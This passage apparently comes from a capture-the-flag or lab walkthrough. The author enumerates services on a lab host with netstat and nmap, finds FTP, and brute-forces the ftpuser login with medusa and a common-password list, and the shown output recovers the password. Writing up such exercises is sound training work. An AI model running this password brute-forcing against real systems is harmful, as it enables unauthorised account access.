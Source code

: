 Nice, we're in, let's look around, it's useful to check open ports and listening services, for this, we can use the following command:

```
netstat -tulpn | grep LISTEN
```

We get this:

```
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$ netstat -tulpn | grep LISTEN
(No info could be read for "-p": geteuid()=1000 but you should be root.)
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -               
tcp6       0      0 :::21                   :::*                    LISTEN      -               
tcp6       0      0 :::22                   :::*                    LISTEN      -
```

We can think that the service running on port 21 is FTP, Nmap is enabled on the machine, let's run a scan to identify the services:

```
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$ nmap localhost
Starting Nmap 7.80 ( https://nmap.org ) at 2025-02-13 20:35 UTC
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00011s latency).
Other addresses for localhost (not scanned): ::1
Not shown: 998 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh

Nmap done: 1 IP address (1 host up) scanned in 0.04 seconds
```

It was ftp indeed, machine also has medusa installed, this can help us brute force the login for ftp, if we check the home directory, we find this:

```
sshuser@ng-1340293-loginbfservice-amvfj-8678d96dc8-r66vm:~$ ls /home
ftpuser  sshuser
```

We got other user `ftpuser`, let's brute force:

```
medusa -h 127.0.0.1 -u ftpuser -P 2020-200_most_used_passwords.txt -M ftp -t 5

sword: 1234567 (11 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: qwerty (12 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: Million2 (13 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: abc123 (14 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: 000000 (15 of 197 complete)
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 0 complete) Password: qqww1122 (16 of 197 complete)
ACCOUNT FOUND: [ftp] Host: 127.0.0.1 User: ftpuser Password: qqww1122 [SUCCESS]
ACCOUNT CHECK: [ftp] Host: 127.0.0.1 (1 of 1, 0 complete) User: ftpuser (1 of 1, 1 complete) Password: 1234 (17 of 197 complete)
```

